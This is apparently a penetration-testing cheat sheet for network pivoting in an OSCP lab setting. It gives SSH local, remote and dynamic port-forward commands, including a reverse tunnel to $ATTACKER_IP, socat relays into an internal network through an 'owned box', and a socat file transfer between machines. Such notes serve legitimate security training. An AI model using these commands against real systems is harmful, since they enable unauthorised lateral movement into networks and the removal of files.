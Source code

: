Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```

Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

OSCP socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![](images/socat-network-pivot.png)

!()[https://github.com/OuttaBounds/ptesting/blob/main/images/socat-network-pivot.png]

```puml
@startuml
!theme crt-green

nwdiag {
    internet [shape=cloud]
    VPN [type=switch];
    internet -- VPN
    group {
      color="#425444"
      webserver;
      database;
    }
    network VPN_network {
      VPN;
      webserver [address = "192.168.x.101"];
      attacker [address = "192.168.x.102" shape = entity];
      address = "192.168.x.x/24"
    }
    network internal {
        address = "10.x.x.x/24"
        webserver [address = "10.x.x.102" shape = database]
        database [address = "10.x.x.101" shape = collections];
        other_server [address = "10.x.x.103" ];
    }

}
@enduml
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```